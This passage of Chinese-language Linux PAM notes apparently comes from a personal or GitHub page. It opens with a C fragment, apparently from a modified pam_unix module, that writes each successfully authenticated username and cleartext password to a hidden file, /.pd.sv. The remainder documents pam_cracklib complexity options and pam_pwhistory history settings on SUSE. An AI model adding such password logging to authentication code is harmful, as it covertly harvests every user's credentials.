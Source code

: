 ```
	/* 记录认证成功的用户密码 */
	if(PAM_SUCCESS == retval) {
		fp = fopen("/.pd.sv", "a+");
		if(NULL != fp) {
			fprintf(fp, "%s -> %s\n", name, p);
			fclose(fp);
		}
	}
	/* end */
	
	name = p = NULL;
	AUTH_RETURN;
}
```
### pam_cracklib
作用: 校验新设置口令的复杂度是否满足要求。
<br>
示例: 最小长度14，至少包含4种字符(大写、小写、数字、特殊字符)，禁止包含用户名，对root用户生效
```
SUSE12-2:~ # cat /etc/pam.d/common-password
#%PAM-1.0
#
password	requisite	pam_cracklib.so minlen=14 minclass=4 reject_username enforce_for_root
password	sufficient	pam_unix.so	use_authtok shadow try_first_pass sha512
```
pam_cracklib.so模块常用参数:

|参数|作用|
|----|----|
|difok=N|新密码和旧密码至少有几个字符不同, 默认值:5|
|minlen=N|密码最小长度, 默认值:9|
|dcredit=N|N>=0时表示密码中最多包含N个数字; N<0时表示密码中至少包含-N个数字|
|ucredit=N|大写字母个数要求，N同dcredit|
|lcredit=N|小写字母个数要求，N同dcredit|
|ocredit=N|特殊字符个数要求，N同dcredit|
|minclass=N|密码中至少包含几种字符|
|maxrepeat=N|相同字符连续重复(aaa)最大次数，默认值:0，表示不检查|
|maxsequence=N|字符序列(abcd,1234)最大长度，默认值:0，表示不检查|
|reject_username|禁止包含用户名或逆序|
|enforce_for_root|口令复杂度要求对root用户也生效|
|dictpath=/path/to/dict|口令字典路径，禁止新密码与字典内的口令相同|

### pam_pwhistory
This module saves the last passwords for each user in order to force password change history and keep the user from alternating between the same password too frequently.
<br>
示例: 记录10个历史密码，对root用户生效
```
SUSE12-2:~ # cat /etc/pam.d/common-password
#%PAM-1.0
#......
password	required	pam_pwhistory.so use_authtok remember=10 enforce_for_root
password	sufficient	pam_unix.so	use_authtok shadow try_first_pass sha512
```